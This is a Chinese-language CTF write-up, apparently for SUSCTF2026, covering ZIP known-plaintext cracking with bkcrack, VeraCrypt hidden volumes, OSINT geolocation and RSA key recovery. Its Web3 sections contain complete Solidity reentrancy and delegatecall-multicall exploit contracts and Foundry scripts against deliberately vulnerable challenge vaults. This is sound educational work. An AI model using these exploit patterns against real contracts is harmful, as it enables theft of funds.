明文攻击最低要求是**8\+4**，即连续的八字节明文\+一共12字节的明文，使用的工具是bkcrack。

---

> 顺带一提，在出题期间曾经看到bkcrack的原作者将破解条件进一步弱化为**7\+4**（付出的代价是效率变慢400%，**注意，仅仅变慢了400%**）。但由于这种新算法尚未公布，所以这次出题没有考虑这个。
> 


---

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

回到此题。既然考虑明文攻击，首先可以明确的是key\.txt的内容我们不得而知，考虑flag1\.txt，我们知道flag的开头是“susctf\{”，末尾是“\}”一共8 bytes，**不满足攻击条件**。

但有趣的是第一步中已经提到，压缩包主人的键盘坏了，因此flag2\.txt极大概率也被重复了一遍，那么我们的攻击条件立刻 **超级加倍** ——开头是 `ssuussccttff\{\{`，这已经有连续的14 bytes，可以轻松破解。具体破解参数示例：

```bash
(base) ┌──(rekjo㉿LAPTOP-BMERJF8L)-[/mnt/e/Downloads/SUSCTF2026/加密文件]
└─$ ./bkcrack.exe -c flag2.txt -C step2.zip -p plain
bkcrack 1.8.0 - 2025-08-18
[14:46:53] Z reduction using 7 bytes of known plaintext
100.0 % (7 / 7)
[14:46:53] Attack on 885066 Z values at index 6
Keys: fb2e4c73 fad03443 60edaf9b
46.4 % (410632 / 885066)
Found a solution. Stopping.
You may resume the attack with the option: --continue-attack 410632
[14:51:30] Keys
fb2e4c73 fad03443 60edaf9b
 
(base) ┌──(rekjo㉿LAPTOP-BMERJF8L)-[/mnt/e/Downloads/SUSCTF2026/加密文件]
└─$ ./bkcrack.exe -c flag2.txt -C step2.zip -p plain -k fb2e4c73 fad03443 60edaf9b -D decrypted.zip
bkcrack 1.8.0 - 2025-08-18
[14:51:55] Writing decrypted archive decrypted.zip
100.0 % (2 / 2)
```

> （此题如果有暴力破解的师傅可以说一声，那我将非常敬佩你的PC……加密密码是\!@\#$cdnjaognjodsanlgavndusovbweuo）
> 

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

解压后可以得到flag2: ssuussccttff\{\{ZZ11ppCCrryypptt00\_\_ii55\_\_nn00tt\_\_aallww44yyss\_\_ssaaffee\}\}

即

```text
susctf{Z1pCrypt0_i5_n0t_alw4ys_safe}
```

同时得到了一个key: nnootteehhiiddddeennffiillee\!\!，即notehiddenfile\!

翻译过来是“注意隐藏文件！”。

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

#### 加密文件\-3

获取flag2之后，已经没有多余的地方可以藏东西，那么剩余的隐藏文件在哪里呢？

请注意一开始VeraCrypt官方提供的说明：


(诶这个中文翻译好差劲啊)

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

稍加了解可以知道，VeraCrypt除了创建加密卷以外，还可以创建隐藏卷，来避免密码泄露的时候敏感信息的泄露。

隐藏卷应该如何解密出来呢？其实没有什么区别，只需要重新挂载输入密码的时候输入隐藏卷的密码即可。是不是非常隐蔽

可以得到flag3\.png:


<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

flag3:

```text
susctf{Y0u_ar3_mast3r_of_VeraCryp7!}
```

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

emm


嗯...那靠什么读

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

---

## Web3

### History of Chain

> Blockchain never forgets.
>
> Sepolia地址：0x45f85b7505200be5d74d7f098a6ebd1c947e7376c7315dff8ff2335d2f6e7fe5

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

打开

https://sepolia\.etherscan\.io/tx/0x45f85b7505200be5d74d7f098a6ebd1c947e7376c7315dff8ff2335d2f6e7fe5


可以得到fragmentC: `c4lld4t4`

然后查看0x3C2B69e211fd57D9B99d23823A1C3dc1fe519748，这是一笔智能合约。

根据task\.md中的第一句诗，应该查看合约状态。slot中会存放合约的持久化状态变量**（state variables）**。

通过RPC调用查询


可得fragmentA: `st0r4g3`

最后看第二句诗，`birth` 指向合约创建，也就是 **deployment transaction**；`spoken` 则暗示事件日志。

打开https://sepolia\.etherscan\.io/address/0x3C2B69e211fd57D9B99d23823A1C3dc1fe519748\#events，在logs里面可得fragmentB


fragmentB: `3v3nt_l0g`

提交flag:

```text
susctf{st0r4g3_3v3nt_l0g_c4lld4t4}
```

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

---

### covert\-thief

> 有一个小偷，想要清空我的钱包。

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

目标：让当前队伍的 `Setup.isSolved()` 返回 `true`。

```solidity
function isSolved() external view returns (bool) {
        return address(vault).balance == 0 && player.balance > 0.001 ether;
```

也就是说，需要清空 Vault，并让注册的钱包最终余额大于 `0.001 ETH`。

- 漏洞位置

```solidity
function withdraw() external {
    uint256 amount = balances[msg.sender];
    require(amount > 0, "no balance");

    (bool ok,) = msg.sender.call{value: amount}("");
    require(ok, "transfer failed");

    balances[msg.sender] = 0;
}
```

问题就在这段：

```solidity
msg.sender.call{value: amount}("");
```

`call` 会把执行控制权交给 `msg.sender`。如果 `msg.sender` 是一个攻击合约，那么攻击合约可以在接收 ETH 时再次调用 Vault 的 `withdraw()`。这就是重入。

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

#### 详细解释

##### 第一步：攻击合约存款

攻击合约调用：

```solidity
vault.deposit{value: 0.0005 ether}();
```

此时：

```text
Vault 实际余额：0.0015 ETH
balances[攻击合约]：0.0005 ETH
```

##### 第二步：第一次 withdraw

攻击合约调用：

```solidity
vault.withdraw();
```

Vault 读取：

```solidity
amount = balances[msg.sender];
```

此时：

```text
amount = 0.0005 ETH
```

然后 Vault 转账：

```text
msg.sender.call{value: 0.0005 ether}("");
```

于是：

```text
Vault 余额：0.0010 ETH
攻击合约余额：0.0005 ETH
```

但是，下面这句还没有执行：

```text
balances[msg.sender] = 0;
```

因为控制权已经进入攻击合约的 `receive()`。

##### 第三步：第一次重入

`receive()` 发现：

```solidity
address(vault).balance >= 0.0005 ether
```

于是再次执行：

```solidity
vault.withdraw();
```

由于第一次 `withdraw()` 还没有执行清零操作，所以第二次读取到的仍然是：

```text
balances[攻击合约] = 0.0005 ETH
```

第二次转账后：

```text
Vault 余额：0.0005 ETH
攻击合约余额：0.0010 ETH
```

##### 第四步：第二次重入

Vault 仍然有 `0.0005 ETH`，所以再次重入。

第三次提款后：

```text
Vault 余额：0 ETH
攻击合约余额：0.0015 ETH
```

此时：

```solidity
address(vault).balance >= 0.0005 ether
```

不再成立，所以递归结束。

随后所有嵌套调用逐层返回，最后才执行：

```solidity
balances[msg.sender] = 0;
```

不过这时钱已经全部转走了。

最终结果：

```text
Vault：0 ETH
攻击合约：0.0015 ETH
```

攻击合约再执行：

```solidity
player.transfer(address(this).balance);
```

把钱转给选手钱包。

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

#### exp

- Remix 解法

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

interface IScholarshipVault {
    function deposit() external payable;
    function withdraw() external;
}

contract RemixEasySolve {
    IScholarshipVault public immutable vault;
    address payable public immutable player;

    constructor(address vault_) {
        vault = IScholarshipVault(vault_);
        player = payable(msg.sender);
    }

    function solve() external payable {
        require(msg.sender == player, "not player");
        require(msg.value == 0.0005 ether, "send 0.0005 ETH");

        vault.deposit{value: msg.value}();
        vault.withdraw();
        player.transfer(address(this).balance);
    }

    receive() external payable {
        if (address(vault).balance >= 0.0005 ether) {
            vault.withdraw();
        }
    }
}

```

打开 Remix 网页版编译器，https://app\.remix\.live/，

在 Compile 页面切换编译器版本为 0\.8\.24，然后 compile

切换到 `deploy` 页面，选中环境为 Browser Extension \- MetaMask 连接钱包，在下方填入 Vault 后直接 deploy


点击Transaction History 查看状态，确认部署完成之后 copy 一下地址，在Deployed Contracts 里面手动添加。

由于只能输入整数，所以需要**填入 500000000000000 wei**，然后点击 transact，等待钱包弹出交易提示（此处可以再次确认交易量是不是 0\.0005 ETH\)


底部弹出这个就可以确认交易成功了


回到HTTP服务，点击verification即可获得flag

```text
susctf{E45Y_eMptY-b3f0RE_ACcouNtinG_3cb30b8}
```

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

- 纯脚本交易

环境变量设置：

```bash
export SETUP=0xSetup地址
export PLAYER=0x选手钱包地址
export RPC="Sepolia RPC"
export PLAYER_PRIVATE_KEY="选手钱包私钥"

forge script Solve.s.sol:Solve \
  --rpc-url "$RPC" \
  --private-key "$PLAYER_PRIVATE_KEY" \
  --broadcast \
  --chain-id 11155111
```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import {Setup, ScholarshipVault} from "../src/Challenge.sol";

interface Vm {
    function envAddress(string calldata name) external returns (address);
    function startBroadcast() external;
    function stopBroadcast() external;
}

contract EasyReentrantStudent {
    ScholarshipVault public immutable vault;
    address payable public immutable player;

    constructor(ScholarshipVault vault_, address payable player_) {
        vault = vault_;
        player = player_;
    }

    function solve() external payable {
        require(msg.sender == player, "not player");
        require(msg.value == 0.0005 ether, "need 0.0005 ether");
        vault.deposit{value: msg.value}();
        vault.withdraw();
        player.transfer(address(this).balance);
    }

    receive() external payable {
        if (address(vault).balance >= 0.0005 ether) {
            vault.withdraw();
        }
    }
}

contract Solve {
    Vm private constant vm = Vm(address(uint160(uint256(keccak256("hevm cheat code")))));

    function run() external {
        Setup setup = Setup(vm.envAddress("SETUP"));
        address payable player = payable(vm.envAddress("PLAYER"));
        vm.startBroadcast();
        EasyReentrantStudent exploit = new EasyReentrantStudent(setup.vault(), player);
        exploit.solve{value: 0.0005 ether}();
        vm.stopBroadcast();
    }
}

```

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

---

### convert\-thief\-revenge

> 听说你很贪心

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

第二题是核心漏洞是：

> `delegatecall` 批量执行时，会重复使用同一笔外层交易的 `msg.value`。

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

`Setup` 创建一个新的 `MealVault`，并向其中存入 0\.001 ETH

目标还是：

```text
清空 Vault
让绑定的钱包余额超过 0.001 ETH
```

> 注意这个版本的 `withdraw()` 是：
> 
> ```Solidity
> balances[msg.sender] -= amount;
> 
> (bool ok,) = msg.sender.call{value: amount}("");
> ```
> 
> 它是先扣余额再转账，所以这里不存在重入漏洞。
> 
> 

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

漏洞代码：

```solidity
function multicall(bytes[] calldata data) external payable {
    for (uint256 i; i < data.length; ++i) {
        address(this).delegatecall(data[i]);
    }
}
```

攻击者可以构造：

```text
deposit()
deposit()
deposit()
```

然后只向外层的 `multicall()` 发送一次：0\.005 ETH 

问题是，每次 `delegatecall` 执行 `deposit()` 时，看到的 `msg.value` 都不会自动减少。

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

#### 详细解释

##### `delegatecall` 到底保留了什么

普通 `call` 和 `delegatecall` 的区别非常关键。

普通调用会切换执行上下文：

```text
代码：被调用合约的代码
存储：被调用合约的存储
msg.sender：调用者
msg.value：当前 call 传入的 value
address(this)：被调用合约
```

`delegatecall` 使用目标合约的代码，但保留当前上下文：

```text
代码：目标合约的代码
存储：当前合约的存储
msg.sender：原始调用者
msg.value：外层交易的 msg.value
address(this)：当前合约
```

这道题中：

```solidity
address(this).delegatecall(data[i])
```

虽然每次执行的是 `MealVault.deposit()` 的代码，但仍然使用：

```text
MealVault 自己的存储
MealVault 自己的地址
外部攻击合约作为 msg.sender
外层交易的 msg.value
```

最关键的是最后一项：

```text
每一次 deposit() 看到的 msg.value 都是 0.0005 ETH
```

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

##### 过程

假设：

```text
Vault 初始余额：0.001 ETH
攻击者准备资金：0.0005 ETH
```

攻击合约执行：

```solidity
vault.multicall{value: 0.0005 ether}(calls);
```

其中：

```text
calls[0] = deposit();
calls[1] = deposit();
calls[2] = deposit();
```

外层交易进入 Vault 后，Vault 的实际余额变成：

```text
0.001 ETH + 0.0005 ETH = 0.0015 ETH
```

##### 第一次 `delegatecall`

第一份 calldata 执行,

`deposit()` 看到：

```text
msg.value == 0.0005 ether
msg.sender == 攻击合约地址
```

于是：

```text
balances[攻击合约] += 0.0005 ether;
```

账面余额：

```text
攻击合约账面余额：0.0005 ETH
Vault 实际余额：  0.0015 ETH
```

##### 第二次 `delegatecall`

第二次仍然执行 `deposit()`。

尽管没有新的 ETH 转账，但 `msg.value` 仍然是外层的 0\.0005 ETH

所以账面余额继续增加：

```text
balances[攻击合约] = 0.001 ETH
```

##### 第三次 `delegatecall`

第三次同样增加：

```text
balances[攻击合约] = 0.0015 ETH
```

最终状态：

```text
Vault 实际余额：      0.0015 ETH
攻击合约账面余额：    0.0015 ETH
攻击者实际支付金额：  0.0005 ETH
```

形成了：

```text
实际支付：0.0005 ETH
账面记账：0.0015 ETH
```

这就是题目名称“一鱼三吃”的来源。

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

操作步骤：

1. Remix 连接 MetaMask；

2. 切换到 Sepolia；

3. 使用已经注册的玩家钱包；

4. 编译 `RemixMediumSolve`；

5. 部署时填入 Vault 地址；

6. 使用同一个钱包调用 `solve()`；

7. 在 Remix 的 Value 中设置：

```text
0.0005 Ether
```

这个 Remix 版本的构造函数会自动记录部署者：

```text
player = payable(msg.sender);
```

所以部署攻击合约和调用 `solve()` 必须使用同一个钱包。

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

#### exp

- Remix

操作方法类似，这里只贴脚本

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

interface IMealVault {
    function deposit() external payable;
    function withdraw(uint256 amount) external;
    function multicall(bytes[] calldata data) external payable;
}

contract RemixMediumSolve {
    IMealVault public immutable vault;
    address payable public immutable player;

    constructor(address vault_) {
        vault = IMealVault(vault_);
        player = payable(msg.sender);
    }

    function solve() external payable {
        require(msg.sender == player, "not player");
        require(msg.value == 0.0005 ether, "send 0.0005 ETH");

        bytes[] memory calls = new bytes[](3);
        calls[0] = abi.encodeWithSelector(IMealVault.deposit.selector);
        calls[1] = abi.encodeWithSelector(IMealVault.deposit.selector);
        calls[2] = abi.encodeWithSelector(IMealVault.deposit.selector);

        vault.multicall{value: msg.value}(calls);
        vault.withdraw(0.0015 ether);
        player.transfer(address(this).balance);
    }

    receive() external payable {}
}

```

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

- 纯脚本交易

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import {Setup, MealVault} from "../src/Challenge.sol";

interface Vm {
    function envAddress(string calldata name) external returns (address);
    function startBroadcast() external;
    function stopBroadcast() external;
}

contract ThreeMeals {
    MealVault public immutable vault;
    address payable public immutable player;

    constructor(MealVault vault_, address payable player_) {
        vault = vault_;
        player = player_;
    }

    function solve() external payable {
        require(msg.sender == player, "not player");
        require(msg.value == 0.0005 ether, "need 0.0005 ether");

        bytes[] memory calls = new bytes[](3);
        calls[0] = abi.encodeCall(MealVault.deposit, ());
        calls[1] = abi.encodeCall(MealVault.deposit, ());
        calls[2] = abi.encodeCall(MealVault.deposit, ());

        vault.multicall{value: msg.value}(calls);
        vault.withdraw(0.0015 ether);
        player.transfer(address(this).balance);
    }

    receive() external payable {}
}

contract Solve {
    Vm private constant vm = Vm(address(uint160(uint256(keccak256("hevm cheat code")))));

    function run() external {
        Setup setup = Setup(vm.envAddress("SETUP"));
        address payable player = payable(vm.envAddress("PLAYER"));
        vm.startBroadcast();
        ThreeMeals exploit = new ThreeMeals(setup.vault(), player);
        exploit.solve{value: 0.0005 ether}();
        vm.stopBroadcast();
    }
}
```

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

---

## OSINT

### 难忘的暑假

> 暑假就应该游山玩水😆美美享受假期🥰小明对道路很感兴趣🤪在返程途中看到了一条有点特殊的路🤔于是掏出手机记录下来🤓
>
> 你知道他最有可能去了哪个景区游玩吗？🤭
>
> 提交susctf{md5(景区官方全称)}，所有字母请小写。
>
> 示例：md5（钟山风景名胜区）=e8ab6717f812784ccd009d39e592fa65，则提交susctf{e8ab6717f812784ccd009d39e592fa65}

嗯这题有很多 AI 想的很多啊，什么把灵渠理解为“古代的水上道路”，emm 过度解读了哈

不过”游山玩水“确实有一些暗示，指向自然风景区而不是一些人文旅游（当然这个小小的脑电波不影响做题

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

本题的线索比较单一，是三条高速：厦蓉高速、泉南高速、呼北高速，图中的道路牌则是高速并行线。

三条高速的并行线并不多见，使用地图软件可以查找


显然三者在广西省东北角和湖南省西南角的交界处相会。

放大查看可知地点在桂林市兴安县附近，结合4A级景区的条件，可能性更高的景区是[灵渠景区](http://wlt.gxzf.gov.cn/ztzl/lsgd/2025gxlyn/zcwjyjd/t19719409.shtml?f_link_type=f_linkinlinenote&flow_extra=eyJpbmxpbmVfZGlzcGxheV9wb3NpdGlvbiI6MCwiZG9jX3Bvc2l0aW9uIjowLCJkb2NfaWQiOiI3ODI0Yzc1NTBlMjRhNmVmLTBiMWQ0Y2RmNzMxMTZmYjYifQ%3D%3D&use_xbridge3=true&loader_name=forest&need_sec_link=1&sec_link_scene=im&theme=light)


<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

> 注：可能有师傅搜到的是“兴安灵渠景区”，通过一些资料搜索以及景区官方公众号，答案应该取“灵渠景区”更合理。
> 

可得flag：

```text
susctf{33a352534b3b40d23a2a9ebcf4a60dfd}
```

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

**不懂硅基生物的思维**


<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

---

### citywalk

> 南京有非常多的自然风光与人文景观。经过几天的奋战，如果有点累了，不妨和rekjo一样来一次citywalk去散散心 ~~（获取flag~~ 也许路上还会有别样的收获。😘

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

#### 预期解

对于图寻类题目，最重要的是元数据信息。如果图片留下了元数据，那么很有可能会留下重要的线索，甚至是 GPS 坐标本身。

查看元数据的常用工具是 exiftool。以命令行版本为例。


可以发现终端展开了大量信息，从图片的拍摄参数到手机型号，种类非常繁多。每个参数具体是什么意思师傅们可以自行探索。

关注一下结尾部分。


在这里可以看到GPS数据，即`32°2’10”N,118°45’40”E`

我们使用地图软件搜索这个地址可以找到其位置。


或使用谷歌地图：


可以发现定为在莫愁湖公园附近。

结合citywalk和图片中的湖水，可以猜测图片拍摄位置大致位于莫愁湖公园。

对数字比较敏感的师傅可能发现，GPS数据的秒恰好都是整数10\.00和40\.00，非常巧合。结合hint\.txt，这个GPS数据很有可能不准确，因此有必要进一步缩小范围确定目标。

除了GPS数据之外，元数据中可能与解题有关的还有时间，8月23日的17点24分，即傍晚时分。

首先可以看到图中几个关键线索：1\.成片的荷叶 2\.对面是连续的住宅区。除此之外仔细观察还能得到一些信息：

a\.图片两侧的树，图片下方是水域但是树却能闯进镜头，有两种可能：树本身长得非常斜或者树本身就生活在水中；

b\.仔细观察小区的光照。前面提到，拍摄时间位于傍晚，即太阳此时应该处于偏西的位置。根据图中的云可以排除太阳位于前方的可能；根据图中左侧的楼盘几乎没有强烈阳光可以排除太阳位于后方的可能；图中右侧的楼盘其侧面被阳光照射，呈金黄色，说明太阳此时位于左/右边，具体是哪个方位作者没有判断出来（也许使用一些**地理知识**可以判断）。

那么根据太阳在西边且左/右侧是太阳的方位，可知这张照片应该面朝南/北拍摄。

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

根据以上所有线索即可前往莫愁湖进行线下探索，最终发现赏心亭可以拍出类似照片。

因此本题flag为：

```bash
susctf{5e63e057a922783867e0897038ef9b5f}
```

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

#### 非预期

出题时候没往这方面想，竟然还能找到导览图（bushi，公园也有导览图吗

https://www\.365135\.com/jiangsu/mochouhu\.shtml

嗯 后来发现还有官网、公众号，其实信息很多（x 感觉这题也不是很难做

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>


AI 毅力可嘉

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

---

### Browser Is All You Need

> 其实你的浏览器远比你想象的更强大。

现在倒是很多搜索引擎加了 AI 功能，~~（甚至百度也有~~ 搜索东西比以前省事多了

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

1. 


2. 


3. 

去[官网](https://zsb\.seu\.edu\.cn/sns/list\.htm)找答案

逐年求和即可，15\+15\+15\+10\+10=65

4. 

电阻网上随便找个说明图即可，1000000\+10000=1010000


对的，预料到了这题 AI 会识别不太清楚 😊 这张图片选的不错😋

5. 


下载之后在这个文件可以找到


6. 

讲这个漏洞的blog，视频很多，自行搜索[链接](https://www.bing.com/search?q=CVE-2024-3094&form=QBLH&sp=-1&lq=0&pq=cve-2024-3094&sc=11-13&qs=n&sk=&cvid=44B09F7E0C8C43DEB2E1A5B74090158F)

答案汇总：

```text
狗牛
PQ.16.1.1
65
1010000
AATTGCTACTTTGCACTGCACTGGACTATGAC
CMakeLists.txt
```

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

咳，这个大模型有点抽象（ 也是笑晕了


<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

---

## Crypto

### SUSBank\-Database

> 2026 年了，SUSBank 决定升级内部数据库密钥系统。旧数据库的密钥已经稳定运行多年。负责迁移的工程师认为，重新生成整套密钥既浪费时间，又会增加迁移成本，于是决定保留旧的密钥材料，并在此基础上“增强”新的核心数据库系统。

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

去年折磨新生一大会儿的 SUSBank 在 SUSCTF2026 又回归了！:D

今年银行升级了一个新系统，做了一次数据迁移。菜单里可以分别查看旧系统记录、新系统记录和一份调试数据。我们的目标是恢复数据库密钥，提交十六进制密钥拿到 flag。

源码中的菜单和关键输出如下：

```text
[1] Legacy database
 Encrypted key   : c_legacy
 
 [2] Core database
 Modulus         : N
 Encrypted key   : c_core
 
 [3] Migration debug data
 L               : L
```

附件里给出了迁移逻辑。简化一下，大概是这样：

```python
legacy_n = p * q
core_n = p * q * r

c_legacy = pow(m, e, legacy_n)
c_core = pow(m, e, core_n)

L = ((p - 1) * (q - 1) * (r - 1)) % (p * q)
```

其中 e=65537，m 是 32 字节数据库密钥对应的整数。

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

这题的问题在于迁移过程中复用了旧密钥材料。

旧系统的模数是 pq，新系统的模数是 pqr。也就是说，新模数把旧模数完整包含进去了。由于两边加密的是同一个明文 m，我们有：

$c_{legacy} \equiv m^e \pmod {pq}$

以及：

$c_{core} \equiv m^e \pmod {pqr}$

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

既然 $pq \mid pqr$

那么有 $c_{core} \equiv m^e \pmod {pq}$

所以 $c_{core}-c_{legacy} \equiv 0 \pmod {pq}$

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

因此可以直接把旧系统的模数 gcd 出来：

$legacy\_n = pq = \gcd(N, c_{core}-c_{legacy})$

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

设 $c_{core}-c_{legacy}=t\cdot pq$，由于两份密文分别落在区间 $[0,pqr)$ 和 $[0,pq)$，且源码保证两者不相等，所以 $0<t<r$；$r$是素数，从而 $\gcd(r,t)=1$，最终 gcd 恰好为 pq。

拿到 pq 后，新系统多出来的素数也就出来了：$r=\frac{N}{pq}$

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

到这里还差一步：我们知道 pq，但是不知道 p 和 q。这时候就要看调试数据 L。

题目给出 $L=(p-1)(q-1)(r-1) \bmod pq$

在模 pq 意义下，$(p-1)(q-1) \equiv 1-(p+q) \pmod {pq}$

代回去：

$L \equiv (1-(p+q))(r-1) \pmod {pq}$

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

源码生成参数时显式保证了：$\gcd(r-1,pq)=1$

所以 $r-1$ 在模 pq 下存在逆元。于是可以恢复：$p+q \equiv 1-L(r-1)^{-1} \pmod {pq}$

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

因为 $p+q << pq$ ，所以这里取模得到的值就是 p\+q 本身。记：$S=p+q$

现在我们同时知道：$pq=legacy\_n$ 和：$p+q=S$

那么 p,q 就是二次方程的两个根：$x^2-Sx+legacy\_n=0$

判别式 $\Delta=S^2-4legacy\_n$

则

$p=\frac{S+\sqrt{\Delta}}{2}$

$q=\frac{S-\sqrt{\Delta}}{2}$

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

分解出 p,q 后，直接用旧系统的 RSA 私钥解密即可：

$\varphi(legacy\_n)=(p-1)(q-1)$

$d \equiv e^{-1} \pmod {\varphi(legacy\_n)}$

$m \equiv c_{legacy}^d \pmod {legacy\_n}$

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

最后把 m 转成 32 字节，就是要提交的 database key。源码在生成实例时也保证
$m<legacy\_n$，所以 RSA 解密得到的整数正好能用 `to_bytes(32, "big")`
还原出原始密钥（包括可能存在的前导零）。

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

exp如下：

```python
#!/usr/bin/env python3
import argparse
import math
import re
import socket

HOST = "127.0.0.1"
PORT = 9999
E = 65537
KEY_SIZE = 32


def recv_until(sock, marker: bytes):
    data = b""
    while marker not in data:
        chunk = sock.recv(4096)
        if not chunk:
            break
        data += chunk
    return data


def grab_int(label, text):
    pattern = rf"^\s*{re.escape(label)}\s*:\s*(\d+)\s*$"
    match = re.search(pattern, text, flags=re.MULTILINE)
    if not match:
        raise ValueError(f"could not find {label!r}")
    return int(match.group(1))


def choose(sock, option: str) -> str:
    sock.sendall(option.encode() + b"\n")
    data = recv_until(sock, b"Database> ")
    text = data.decode("utf-8", "replace")
    print(text, end="")
    return text


def recover_key(core_n, c_legacy, c_core, L):
    legacy_n = math.gcd(core_n, c_core - c_legacy)
    r = core_n // legacy_n

    inv = pow(r - 1, -1, legacy_n)
    p_plus_q = (1 - L * inv) % legacy_n

    delta = p_plus_q * p_plus_q - 4 * legacy_n
    root = math.isqrt(delta)
    assert root * root == delta

    p = (p_plus_q + root) // 2
    q = (p_plus_q - root) // 2
    assert p * q == legacy_n

    phi = (p - 1) * (q - 1)
    d = pow(E, -1, phi)
    m = pow(c_legacy, d, legacy_n)
    return m.to_bytes(KEY_SIZE, "big")


def solve(host, port):
    with socket.create_connection((host, port), timeout=120) as sock:
        sock.settimeout(120)
        print(recv_until(sock, b"Database> ").decode("utf-8", "replace"), end="")

        legacy_text = choose(sock, "1")
        core_text = choose(sock, "2")
        debug_text = choose(sock, "3")

        c_legacy = grab_int("Encrypted key", legacy_text)
        core_n = grab_int("Modulus", core_text)
        c_core = grab_int("Encrypted key", core_text)
        L = grab_int("L", debug_text)

        key = recover_key(core_n, c_legacy, c_core, L)
        print(f"[+] recovered key: {key.hex()}")

        sock.sendall(b"4\n")
        print(recv_until(sock, b"key> ").decode("utf-8", "replace"), end="")
        sock.sendall(key.hex().encode() + b"\n")

        result = b""
        while True:
            try:
                chunk = sock.recv(4096)
            except socket.timeout:
                break
            if not chunk:
                break
            result += chunk
        print(result.decode("utf-8", "replace"), end="")


def main():
    parser = argparse.ArgumentParser()
    parser.add_argument("--host", default=HOST)
    parser.add_argument("--port", type=int, default=PORT)
    args = parser.parse_args()
    solve(args.host, args.port)


if __name__ == "__main__":
    main()
```

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

---

### The Auditor's Seal

> 你能让合约接受这笔未授权的交易吗？

这题不依靠 AI 的话应该还是有一些难度的，看到 Solidity 代码可能会发懵（当然了，~~AI 不会~~

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

本题由两部分组成：

1. 利用 Solidity 中的 `uint8` 类型截断绕过权限检查；

2. 利用 signer 生成的 128\-bit ECDSA nonce，通过 HNP/LLL 恢复私钥，并伪造 ROOT voucher。

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

1. 权限检查绕过

合约中的权限申请函数为：

```solidity
function requestClearance(uint256 level) external {
    // Deliberately incorrect validation: the check truncates to uint8,
    // while the value written below remains a full uint256.
    require(uint8(level) <= 3, "level too high");
    clearance[msg.sender] = level;
}

function isAuditor(address user) public view returns (bool) {
    return clearance[user] >= 256;
}
```

<div class="post-spacer" aria-hidden="true"></div>

<div class="post-spacer" aria-hidden="true"></div>

